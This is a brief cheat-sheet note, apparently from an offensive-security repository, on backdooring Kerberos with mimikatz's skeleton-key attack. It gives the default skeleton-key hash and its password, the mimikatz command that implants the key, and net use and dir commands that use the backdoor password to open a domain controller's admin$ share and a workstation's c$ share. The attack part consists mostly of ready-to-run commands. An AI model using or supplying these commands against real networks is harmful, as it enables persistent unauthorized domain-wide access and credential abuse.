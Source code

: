 # kerberos backdoor

### using mimikatz

* Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.
* A skeleton key only works using Kerberos RC4 encryption.
* The default hash skeleton key is `60BA4FCADC466C7A033C178194C03DF6` (password:`mimikatz`)

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```